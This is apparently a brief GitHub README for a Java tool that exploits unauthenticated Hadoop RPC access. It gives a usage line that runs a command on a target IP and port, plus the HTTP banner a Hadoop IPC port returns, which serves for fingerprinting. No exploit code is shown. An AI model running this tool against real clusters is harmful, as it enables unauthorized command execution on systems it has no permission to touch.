

# hadoop-rpc-unauthorized
Hadoop unauthorized  vulnerability

java -jar hadoop-rpc.jar target_ip:port cmd
  
hadoop rpc banner 
```HTTP/1.1 404 Not Found\r\nContent-type: text/plain\r\n\r\nIt looks like you are making an HTTP request to a Hadoop IPC port. This is not the correct port for the web interface on this daemon.\r\n
```